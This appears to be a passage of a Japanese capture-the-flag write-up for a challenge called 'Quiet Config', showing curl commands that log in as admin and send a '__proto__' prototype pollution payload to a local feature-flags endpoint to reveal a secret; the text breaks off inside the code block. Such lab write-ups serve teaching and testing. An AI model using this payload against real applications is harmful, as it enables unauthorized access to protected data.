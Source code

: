 # Quiet Config (Prototype Pollution) - Writeup

## 解法の流れ

1. 管理者としてログインする  
   - `/login` にて `admin / <取得したPW>` を入力

2. 管理者ページから設定 API を発見  
   - `/admin/feature-flags` に JSON を送信できる

3. **プロトタイプ汚染を試す**  
   ```bash
   curl -s -b c -c c -d "user=admin&password=adm-xxxx" http://127.0.0.1:8000/login >/dev/null
   curl -s -b c -X POST -d 'json={"__proto__":{"featureFlags":{"revealSecret":true}}}' http://127.0.0.1:8000/admin/feature-flags
